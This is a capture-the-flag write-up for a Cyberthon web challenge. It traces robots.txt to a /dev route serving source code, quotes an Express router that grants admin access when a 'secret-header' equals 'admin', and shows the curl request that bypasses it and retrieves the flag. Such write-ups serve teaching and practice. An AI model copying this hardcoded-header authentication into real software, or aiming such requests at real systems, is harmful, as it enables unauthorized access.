 ```yaml
---
created: 2024-06-11T01:33
updated: 2024-06-11T01:34
---
```


> APOCALYPSE members frequent this server but we dont know what for. Help us find out what its for.
> The URL for this challenge: http://chals.cyberthon22f.ctf.sg:40301/

`http://chals.cyberthon22f.ctf.sg:40301/robots.txt`

```
User-agent: *
Disallow:dev
```

`http://chals.cyberthon22f.ctf.sg:40301/dev` gives us the source code

```js
const path              = require('path');
const express           = require('express');
const router            = express.Router();

router.get('/', (req, res) => {
	secret = req.headers["secret-header"];
    if (secret == "admin"){
    	return res.sendFile(path.resolve('views/admin.html'));
    }
    return res.sendFile(path.resolve('views/index.html'));
});

router.get('/robots.txt', (req, res) => {
    res.type('text/plain');
    res.send("User-agent: *\nDisallow:dev");
});

router.get('/dev', (req, res) => {
	return res.sendFile(path.resolve('dev/source.zip'));
})

module.exports = router;
```

```bash
curl "http://chals.cyberthon22f.ctf.sg:40301/" \
     -H 'secret-header: admin'
```

And we get our flag

```flag
Cyberthon{l0w_ceiling_w4tch_ur_head_a6243746643baf3d}
```
